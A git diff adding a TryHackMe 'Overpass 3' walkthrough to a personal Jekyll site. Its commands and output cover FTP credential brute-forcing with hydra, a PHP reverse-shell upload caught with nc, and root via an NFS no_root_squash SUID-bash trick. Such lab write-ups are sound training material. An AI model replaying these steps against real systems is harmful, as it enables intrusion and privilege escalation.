

Before and after one commit to nulcell/nulcell.github.io, a Jekyll site: the page built from writeups/index.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
overpass 3

````diff
--- a/writeups/thm-overpass-1.md
+++ b/writeups/thm-overpass-1.md
@@ -5,7 +5,7 @@
 title: Overpass 1 - TryHackMe
 permalink: writeups/overpass-1
 # All dates must be YYYY-MM-DD format!
-date: 2021-03-22
+date: 2021-04-20
 labels:
   - TryHackMe
   - boot2root
--- /dev/null
+++ b/writeups/thm-overpass-3.md
@@ -0,0 +1,361 @@
+---
+layout: project
+type: project
+image: images/writeups/thm/overpass-3/logo.png
+title: Overpass 3 - TryHackMe
+permalink: writeups/overpass-3
+# All dates must be YYYY-MM-DD format!
+date: 2021-04-20
+labels:
+  - TryHackMe
+  - Forensics
+  - Wireshark
+summary: You know them, you love them, your favourite group of broke computer science students have another business venture! Show them that they probably should hire someone for security...
+---
+
+<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/overpass-2/header.png">
+<script src="https://www.tryhackme.com/badge/192700"></script>
+
+```
+MACHINE = OVERPASS 3
+TARGET = VARIABLE
+OS = LINUX
+DIFFICULTY = MEDIUM
+```
+## Enumeration
+
+Starting with an nmap scan
+
+```console
+┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
+└─# nmap -T4 -A 10.10.153.169 -oN nmap
+Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-20 19:31 WAT
+Nmap scan report for 10.10.153.169
+Host is up (0.28s latency).
+Not shown: 997 filtered ports
+PORT   STATE SERVICE VERSION
+21/tcp open  ftp     vsftpd 3.0.3
+22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
+| ssh-hostkey:
+|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
+|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
+|_  256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (ED25519)
+80/tcp open  http    Apache httpd 2.4.37 ((centos))
+| http-methods:
+|_  Potentially risky methods: TRACE
+|_http-server-header: Apache/2.4.37 (centos)
+|_http-title: Overpass Hosting
+Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
+Aggressive OS guesses: Linux 3.10 - 3.13 (92%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 5.4 (86%), Linux 2.6.32 (86%)
+No exact OS matches for host (test conditions non-ideal).
+Network Distance: 2 hops
+Service Info: OS: Unix
+
+TRACEROUTE (using port 21/tcp)
+HOP RTT       ADDRESS
+1   316.52 ms 10.8.0.1
+2   316.94 ms 10.10.153.169
+
+OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 48.30 seconds
+```
+
+I ran a nikto scan and got some useful information about the server.
+
++ Server: Apache/2.4.37 (centos)
++ Retrieved x-powered-by header: PHP/7.2.24
+
+I ran gobuster in dir mode and got a directory /backups and found a file named backup.zip. It contained 2 files priv.key and CustomerDetails.xlsx.gpg
+
+```console
+┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
+└─# gobuster dir -u http://overpass.thm -w /opt/wordlists/raft-large-directories.txt -o gobuster-dir-root
+===============================================================
+Gobuster v3.1.0
+by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
+===============================================================
+[+] Url:                     http://overpass.thm
+[+] Method:                  GET
+[+] Threads:                 10
+[+] Wordlist:                /opt/wordlists/raft-large-directories.txt
+[+] Negative Status codes:   404
+[+] User Agent:              gobuster/3.1.0
+[+] Timeout:                 10s
+===============================================================
+2021/04/20 20:04:55 Starting gobuster in directory enumeration mode
+===============================================================
+/backups              (Status: 301) [Size: 236] [--> http://overpass.thm/backups/]
+
+┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
+└─# unzip backup.zip
+Archive:  backup.zip
+ extracting: CustomerDetails.xlsx.gpg
+  inflating: priv.key
+```
+
+Importing the private key file, priv.key, I found that it was probably for the user Paradox
+
+```console
+┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3/backups]
+└─# gpg --import priv.key
+gpg: /root/.gnupg/trustdb.gpg: trustdb created
+gpg: key C9AE71AB3180BC08: public key "Paradox <paradox@overpass.thm>" imported
+gpg: key C9AE71AB3180BC08: secret key imported
+gpg: Total number processed: 1
+gpg:               imported: 1
+gpg:       secret keys read: 1
+gpg:   secret keys imported: 1
+┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3/backups]
+└─# gpg -d CustomerDetails.xlsx.gpg > CustomerDetails.xlsx
+gpg: encrypted with 2048-bit RSA key, ID 9E86A1C63FB96335, created 2020-11-08
+      "Paradox <paradox@overpass.thm>"
+```
+
+Opening the decrypted file, I found a list of usernames and passwords
+
+<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/overpass-3/1.png">
+
+```
+paradox:ShibesAreGreat123
+0day:OllieIsTheBestDog
+muirlandoracle:A11D0gsAreAw3s0me
+```
+
+## Exploitation
+
+Using the credentials I used hydra to bruteforce the ftp login and got a hit
+
+```console
+┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
+└─# hydra -L users -P pass overpass.thm ftp
+Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
+
+Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-20 20:17:55
+[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
+[DATA] attacking ftp://overpass.thm:21/
+[21][ftp] host: overpass.thm   login: paradox   password: ShibesAreGreat123
+1 of 1 target successfully completed, 1 valid password found
+Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-20 20:18:00
+```
+
+Logging in to the ftp server with the credentials and enumerating I found that the ftp directory was also the directory for the web server. I found that I could upload files to the directory and I tested this using a hello.txt file.
+
+```console
+┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
+└─# ftp overpass.thm
+Connected to overpass.thm.
+220 (vsFTPd 3.0.3)
+Name (overpass.thm:root): paradox
+331 Please specify the password.
+Password:
+230 Login successful.
+Remote system type is UNIX.
+Using binary mode to transfer files.
+ftp> dir
+200 PORT command successful. Consider using PASV.
+150 Here comes the directory listing.
+drwxr-xr-x    2 48       48             24 Nov 08 21:25 backups
+-rw-r--r--    1 0        0           65591 Nov 17 20:42 hallway.jpg
+-rw-r--r--    1 0        0            1770 Nov 17 20:42 index.html
+-rw-r--r--    1 0        0             576 Nov 17 20:42 main.css
+-rw-r--r--    1 0        0            2511 Nov 17 20:42 overpass.svg
+226 Directory send OK.
+
+ftp> put hello.txt
+local: hello.txt remote: hello.txt
+200 PORT command successful. Consider using PASV.
+150 Ok to send data.
+226 Transfer complete.
+6 bytes sent in 0.00 secs (66.5838 kB/s)
+ftp> dir
+200 PORT command successful. Consider using PASV.
+150 Here comes the directory listing.
+drwxr-xr-x    2 48       48             24 Nov 08 21:25 backups
+-rw-r--r--    1 0        0           65591 Nov 17 20:42 hallway.jpg
+-rw-r--r--    1 1001     1001            6 Apr 20 19:21 hello.txt
+-rw-r--r--    1 0        0            1770 Nov 17 20:42 index.html
+-rw-r--r--    1 0        0             576 Nov 17 20:42 main.css
+-rw-r--r--    1 0        0            2511 Nov 17 20:42 overpass.svg
+226 Directory send OK.
+```
+<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/overpass-3/2.png">
+
+Knowing that the web server is running php I used a php reverse shell script to get a shell.
+
+```console
+ftp> put shell.php
+local: shell.php remote: shell.php
+200 PORT command successful. Consider using PASV.
+150 Ok to send data.
+226 Transfer complete.
+
+#using curl
+┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3/ftp]
+└─# curl http://overpass.thm/shell.php
+
+#getting reverse shell
+┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
+└─# nc -lnvp 4444
+Listening on 0.0.0.0 4444
+Connection received on 10.10.153.169 35162
+Linux localhost.localdomain 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
+ 20:29:30 up  1:03,  0 users,  load average: 0.00, 0.00, 0.00
+USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=48(apache) gid=48(apache) groups=48(apache)
+sh: cannot set terminal process group (850): Inappropriate ioctl for device
+sh: no job control in this shell
+sh-4.4$ whoami
+whoami
+apache
+```
+
+<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/overpass-3/3.png">
+
+I found the web flag in /usr/share/httpd
+
+```console
+sh-4.4$ ls -la
+ls -la
+total 24
+drwxr-xr-x.  5 root root   63 Nov 17 20:54 .
+drwxr-xr-x. 81 root root 4096 Nov  8 02:02 ..
+drwxr-xr-x.  3 root root 4096 Nov  8 02:02 error
+drwxr-xr-x.  3 root root 8192 Nov  8 02:02 icons
+drwxr-xr-x.  3 root root  140 Nov  8 02:02 noindex
+-rw-r--r--.  1 root root   38 Nov 17 20:54 web.flag
+sh-4.4$ pwd
+/usr/share/httpd
+```
+
+## Privilege Escalation
+
+I used the credentials of paradox to switch to his user
+
+```console
+sh-4.4$ su paradox
+su paradox
+Password: ShibesAreGreat123
+
+whoami
+paradox
+```
+
+I used ssh-keygen to generate an ssh key pair and used it to ssh into the machine as paradox with a proper shell
+
+```console
+ssh-keygen
+Generating public/private rsa key pair.
+Enter file in which to save the key (/home/paradox/.ssh/id_rsa):
+Enter passphrase (empty for no passphrase):
+Enter same passphrase again:
+Your identification has been saved in /home/paradox/.ssh/id_rsa.
+Your public key has been saved in /home/paradox/.ssh/id_rsa.pub.
+The key fingerprint is:
+SHA256:Lj7X/+9IG4AFso38v04btU/gvwfpNXnHVaaoCse+Qm8 paradox@localhost.localdomain
+The key's randomart image is:
++---[RSA 3072]----+
+|        . .      |
+|       . = .    o|
+|        + . .. o.|
+|         . o. . .|
+|       .S o.. ooo|
+|      o.o .. +o==|
+|     ..=.o  +.=o=|
+|     .o.E .. =.B.|
+|      .=.. o=.++B|
++----[SHA256]-----+
+mv id_rsa.pub authorized_keys
+```
+
+```console
+┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
+└─# ssh -i id_rsa_paradox paradox@10.10.153.169
+Last login: Tue Apr 20 20:43:59 2021 from 10.8.169.153
+[paradox@localhost ~]$
+```
+
+Running linpeas.sh I got an interesting [NFS Share Exploit](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)
+
+```
+[+] NFS exports?
+[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
+/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
+```
+
+I tried mounting but I got an error so I checked for open ports so I could use an ssh tunnel to get access.
+
+```console
+#target
+[paradox@localhost ~]$ ss -tnlp
+State          Recv-Q         Send-Q                 Local Address:Port                  Peer Address:Port
+LISTEN         0              128                          0.0.0.0:111                        0.0.0.0:*
+LISTEN         0              128                          0.0.0.0:20048                      0.0.0.0:*
+LISTEN         0              128                          0.0.0.0:22                         0.0.0.0:*
+LISTEN         0              128                          0.0.0.0:55257                      0.0.0.0:*
+LISTEN         0              64                           0.0.0.0:44699                      0.0.0.0:*
+LISTEN         0              64                           0.0.0.0:2049                       0.0.0.0:*
+LISTEN         0              128                             [::]:111                           [::]:*
+LISTEN         0              128                             [::]:20048                         [::]:*
+LISTEN         0              128                                *:80                               *:*
+LISTEN         0              64                              [::]:39091                         [::]:*
+LISTEN         0              128                             [::]:40371                         [::]:*
+LISTEN         0              32                                 *:21                               *:*
+LISTEN         0              128                             [::]:22                            [::]:*
+LISTEN         0              64                              [::]:2049                          [::]:*
+```
+
+I used ssh port forwarding to get access to the nfs port on port 2049
+
+```console
+┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3/ftp]
+└─# ssh -L 2049:10.10.134.5:2049 -i ../id_rsa_paradox paradox@10.10.134.5
+Last login: Tue Apr 20 21:41:16 2021 from 10.8.169.153
+[paradox@localhost ~]$
+
+┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
+└─# ss -tunlp
+Netid  State   Recv-Q  Send-Q     Local Address:Port     Peer Address:Port  Process
+udp    UNCONN  0       0                0.0.0.0:34946         0.0.0.0:*      users:(("openvpn",pid=47,fd=3))
+tcp    LISTEN  0       1                0.0.0.0:4444          0.0.0.0:*      users:(("nc",pid=23763,fd=3))
+tcp    LISTEN  0       128            127.0.0.1:2049          0.0.0.0:*      users:(("ssh",pid=26912,fd=5))
+tcp    LISTEN  0       128                [::1]:2049             [::]:*      users:(("ssh",pid=26912,fd=4))
+```
+
+I then tried mounting the nfs share and got the next flag.
+
+```console
+┌──(root💀Toyin)-[~]
+└─# mount -v -t nfs localhost:/ /tmp/pe
+┌──(root💀Toyin)-[/tmp/pe]
+└─# ls -la
+total 88
+drwx------  3 nullcell nullcell   112 Nov 17 22:15 .
+drwxrwxrwt 28 root     root     69632 Apr 20 22:04 ..
+lrwxrwxrwx  1 root     root         9 Nov  8 22:45 .bash_history -> /dev/null
+-rw-r--r--  1 nullcell nullcell    18 Nov  8  2019 .bash_logout
+-rw-r--r--  1 nullcell nullcell   141 Nov  8  2019 .bash_profile
+-rw-r--r--  1 nullcell nullcell   312 Nov  8  2019 .bashrc
+drwx------  2 nullcell nullcell    61 Nov  8 03:20 .ssh
+-rw-------  1 nullcell nullcell    38 Nov 17 22:15 user.flag
+```
+
+I got the ssh key for the user james and exploiting the nfs share further I uploaded a bash executable and set the SUID bit on it. I the used the ssh key of james to login and run the bash SUID executable with the -p flag and got root.
+
+```console
+#local machine
+┌──(root💀Toyin)-[/tmp/pe]
+└─# cp /bin/bash .
+┌──(root💀Toyin)-[/tmp/pe]
+└─# chmod +s ./bash
+
+#target machine
+┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
+└─# ssh -i id_rsa_james james@10.10.134.5
+Last login: Wed Nov 18 18:26:00 2020 from 192.168.170.145
+[james@localhost ~]$ ./bash -p
+./bash: /lib64/libtinfo.so.6: no version information available (required by ./bash)
+bash-5.1# whoami
+root
+```
+
+pwned
````
Also changed, not shown: images/writeups/thm/overpass-3/1.png (added), images/writeups/thm/overpass-3/2.png (added), images/writeups/thm/overpass-3/3.png (added), images/writeups/thm/overpass-3/header.png (added), images/writeups/thm/overpass-3/logo.png (added).
